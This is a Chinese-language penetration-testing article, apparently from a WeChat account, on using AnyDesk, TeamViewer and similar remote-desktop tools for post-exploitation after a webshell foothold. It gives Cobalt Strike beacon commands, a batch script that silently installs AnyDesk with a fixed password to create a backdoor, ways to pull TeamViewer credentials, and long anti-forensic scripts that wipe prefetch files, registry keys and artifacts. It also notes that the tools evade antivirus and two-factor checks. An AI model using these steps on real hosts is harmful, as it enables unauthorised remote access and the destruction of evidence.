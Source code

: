 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H_2RAUE-9k2Gljh4AJ9d4A)<table><tbody><tr><td width="557" valign="top" height="62"><section><strong>声明：</strong>该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。</section><section>请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</section></td></tr></tbody></table>

**0x01 前言**

假设已经通过某漏洞拿到目标主机的 Webshell 权限，这时可以先看下里边是否安装的有以下这些第三方软件，它们可以不用通过 Mstsc.exe 即可进行远程桌面连接。

```
向日葵；
ToDesk；
AnyDesk；
TeamViewer；
Radmin；
RealVNC；
PcAnywhere；
[...SNIP...]
```

利用向日葵 /ToDesk/AnyDesk/TeamViewer 等第三方软件进入远程桌面时需要使用 Administrators 权限来执行，而 Radmin/RealVNC/PcAnywhere 只需找到连接密码即可。

**相关阅读：  
**

[向日葵软件在渗透测试中的应用（直接点击即可访问）](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486900&idx=1&sn=a766fc39f5536f1f65e8c3f05c5bc134&chksm=cfa6a9a7f8d120b11cfb844f41a0470fdbf93fc0a0f4034d21efcf8c8765ab0e0221affbac58&scene=21#wechat_redirect)  

https://www.yuque.com/docs/share/cfe594e5-4831-4a97-8dab-28848fe91640?#（密码：hist）  

**0x02 应用场景**

AnyDesk 与 TeamViewer 等这类软件都具备内网穿透、文件传输、流量加密等功能，而且它们有数字签名，所以大部分杀毒软件都不会对其进行查杀，在远程桌面连接中可应用场景包括但不限于以下几点。

```
1) Windows RDP远程桌面连接登录限制；
2) 某狗、盾、锁、神等计算机名和IP认证；
3) Duo Security RDP等双因素身份验证；
[...SNIP...]
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8f70zVQLgdAC21QDHVo3KEnEEUQ8ic6cgXurSZggQpsg0ymH2TPz1FyicQ/640?wx_fmt=png)

**0x03 AnyDesk 利用方式**

首先在本地执行 AnyDesk 并设置下 “为自主访问设置密码”，AnyDesk 目录下会生成一些配置文件用来存储我们的 ID、Pass、Key 和证书等数据，这里记好我们的 ID 和设置好的 Pass，用于后期连接目标机器上的 AD，`执行过程中不会有UAC弹窗。`

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fib0icIlDOic2iaTcLOS7dwaAxFjElgiaJ3QRz2CJ7lFnTDaiaFJMyrauMsGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8f87aEnzWib2hKWcpIeW7YicVe067Wy44ECqrBPE26q4Jibv4nsdayZF59g/640?wx_fmt=png)

接着把 AnyDesk 上传至目标磁盘，创建`%userprofile%\AppData\Roaming\AnyDesk`目录，然后将我们本地的 service.conf 配置文件上传进去以后再执行 AD 即可，这个文件是用来给 AD 设置一个固定的连接 ID 和 Pass。

```
beacon> shell md %userprofile%\AppData\Roaming\AnyDesk
beacon> shell C:\ProgramData\AnyDesk.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8flBj0NBbU62ecY6tbNuTvFvmNiaHXSzS9lVdhVFre1qlmqZ0GSPqZTvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fXYK9xhm1c1t2sKLj5ictOyTfDbnzB5iapbn7CRdoicmAk7bs6bkYnB7jg/640?wx_fmt=png)

**注：**本地用 AnyDesk 连接目标时必须先删除 %userprofile%\AppData\Roaming\AnyDesk 目录下的所有文件，然后重新执行 AD，因为只有这样 AD 才会重新分配一个新的 ID 给我们，必须与原 ID 不一样才可以连接目标机器，否则可能会连接到我们本地机器。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fCJ5Q8r2AZjcIocjZOqTyR7IpOS4cbPTZ3Z8sFLCOEvtaicl14iaVXPlQ/640?wx_fmt=png)

或者我们可以在命令行直接执行以下批处理文件进行静默安装并设置固定连接密码，接着通过 --get-id 参数获取 AD 的连接 ID，如果在获取不到连接 ID 时可以尝试在 choice 中增加延迟。

```
@echo off
AnyDesk.exe --install "C:\ProgramData\AnyDesk" --silent
echo licence_keyABC | "C:\ProgramData\AnyDesk\AnyDesk.exe" --register-licence
echo anydesk!@# | "C:\ProgramData\AnyDesk\AnyDesk.exe" --set-password
choice /t 10 /d y /n >nul
for /f "delims=" %%i in ('anydesk --get-id') do set CID=%%i
echo Connection ID Is: %CID%
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fibStnTayrX5v1IOnLibGapI8sXbCvmgGKpaw6lTLtV69fQE0Mus8Qw7w/640?wx_fmt=png)

**可能需要清理的痕迹：**

```
@echo off
taskkill /f /im AnyDesk.exe
del /s /q %userprofile%\AppData\Roaming\AnyDesk\*.*
rmdir /s /q %userprofile%\AppData\Roaming\AnyDesk
rmdir /s /q "%userprofile%\AppData\Roaming\Apple Computer"
rmdir /s /q %userprofile%\Videos\AnyDesk
rmdir /s /q %userprofile%\Pictures\AnyDesk
del /s /q %userprofile%\Recent\AnyDesk.lnk
del /s /q %userprofile%\AppData\Roaming\Microsoft\Windows\Recent\AnyDesk*.lnk
del /s /q C:\Windows\Prefetch\ANYDESK*.pf
taskkill /f /im AnyDesk.exe
rmdir /s /q C:\ProgramData\AnyDesk
reg delete "HKCR\AnyDesk" /f
reg delete "HKCR\.anydesk" /f
reg delete "HKLM\SOFTWARE\Classes\AnyDesk" /f
reg delete "HKLM\SOFTWARE\Clients\Media\AnyDesk" /f
reg delete "HKLM\SYSTEM\ControlSet001\Services\AnyDesk" /f
reg delete "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\AnyDesk" /f
sc delete AnyDesk
del /s /q AnyDesk.exe
[...SNIP...]
```

**0x04 TeamViewer 利用方式**

通过以下命令查看目标机器 TV 绝对路径，也可以自己上传一个免安装版 TV 并执行，然后再用 TeamViewer 利用工具获取它的连接 ID 和 Pass。

`在执行过程中可能会出现UAC弹窗`，这里不管我们选择是或者否都会运行，但这种方式在实战中动静还是太大了。

```
tasklist /svc | findstr "TeamViewer" & sc qc TeamViewer
wmic process where  get processid,name,executablepath
TeamViewer ID：1 118 357 536  -  TeamViewer Pass：7224
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fRngqUWqUjia0ygYXptGmvxB8fFga22gtX6PHhDVIk2NnSfkMdwgRzMw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fdF8FpRdc2bcRbiaFa8TWS1YXgO1HTicXLOE4BJaHIicWsQicJSnK7h9M4g/640?wx_fmt=png)

大部分利用工具原理都是在 TeamViewer.exe 进程的窗体句柄或内存中找到的 ID 和 Pass。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8fqq6tN69Q0kTAqTuRY0lgZRP3goicmvlOSGgHsTElgC5eiaYn83mFZx7w/640?wx_fmt=png)

或者我们可以在执行 TV 后通过使用 Meterpreter 和 CobaltStrike 中的 screenshot 命令截取目标机器桌面得到 TeamViewer 的连接 ID 和 Pass。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfIEQloHjqqafHoZqFviaK8ficOXPf5yeib4KUqGzmWeRYRI3GiaxbK2LdFvqZg4QibxV2cY95Axf9yolw/640?wx_fmt=png)

**可能需要清理的痕迹：**

```
@echo off
taskkill /f /im TeamViewer.exe /im tv_w32.exe /im tv_x64.exe
rd /s /q C:\Windows\Temp\TeamViewerPortable
rd /s /q "%ProgramFiles%\TeamViewer"
rd /s /q "%ProgramFiles(x86)%\TeamViewer"
rd /s /q %userprofile%\AppData\Roaming\TeamViewer
rd /s /q %userprofile%\AppData\Local\TeamViewer
rd /s /q %userprofile%\AppData\Local\Temp\TeamViewer
rd /s /q %userprofile%\AppData\Local\Temp\1\TeamViewer
rd /s /q %userprofile%\AppData\Local\Temp\1\TeamViewerPortable
del /s /q %userprofile%\AppData\Roaming\Microsoft\Windows\Recent\TeamViewer*.lnk
del /s /q C:\Windows\Fonts\teamviewer*.otf
del /s /q C:\Windows\Prefetch\TeamViewer*.pf
del /s /q C:\ProgramData\Intel\ShaderCache\TeamViewer*
sc delete TeamViewer
[...SNIP...]
```

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)